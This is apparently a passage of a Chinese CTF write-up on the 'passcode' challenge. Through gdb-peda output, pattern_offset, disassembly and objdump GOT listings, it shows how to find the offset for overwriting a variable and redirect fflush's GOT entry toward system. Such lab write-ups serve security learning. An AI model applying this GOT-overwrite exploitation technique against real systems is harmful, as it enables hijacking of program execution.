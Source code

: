 ```
0004| 0xffffcf34 ("6AALAJAAfAA5AAKAAgAA6AAL")
0008| 0xffffcf38 ("AJAAfAA5AAKAAgAA6AAL")
0012| 0xffffcf3c ("fAA5AAKAAgAA6AAL")
0016| 0xffffcf40 ("AAKAAgAA6AAL")
0020| 0xffffcf44 ("AgAA6AAL")
0024| 0xffffcf48 ("6AAL")
0028| 0xffffcf4c --> 0x1ae10600 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x080485cc in login ()
gdb-peda$ x/xw $ebp-0x10
0xffffcf48:	0x4c414136
gdb-peda$ pattern_offset 0x4c414136
1279344950 found at offset: 96

```
用`pattern_offset`查看`passcode1`的值，偏移量为96。

好了，可以覆盖`passcode1`了，那么该覆盖为什么值呢？

当然是覆盖函数的地址了，覆盖函数的GOT表中的地址。GOT表中存放的函数地址是在程序运行后，动态链接器加载的函数地址。

在`system`函数前有`fflush`和`printf`两个函数可以用。

这里我选用`fflush`，有两种方法可以查看GOT表内容。
### 查看汇编代码中`fflush`函数的代码

```
(gdb) disas fflush
Dump of assembler code for function fflush@plt:
=> 0x08048430 <+0>:	jmp    *0x804a004
   0x08048436 <+6>:	push   $0x8
   0x0804843b <+11>:	jmp    0x8048410
End of assembler dump.

```

### 使用`objdump -R passcode`查看
```
passcode:     file format elf32-i386
 
DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049ff0 R_386_GLOB_DAT    __gmon_start__
0804a02c R_386_COPY        stdin
0804a000 R_386_JUMP_SLOT   printf
=> 0804a004 R_386_JUMP_SLOT   fflush
0804a008 R_386_JUMP_SLOT   __stack_chk_fail
0804a00c R_386_JUMP_SLOT   puts
0804a010 R_386_JUMP_SLOT   system
0804a014 R_386_JUMP_SLOT   __gmon_start__
0804a018 R_386_JUMP_SLOT   exit
0804a01c R_386_JUMP_SLOT   __libc_start_main
0804a020 R_386_JUMP_SLOT   __isoc99_scanf
```
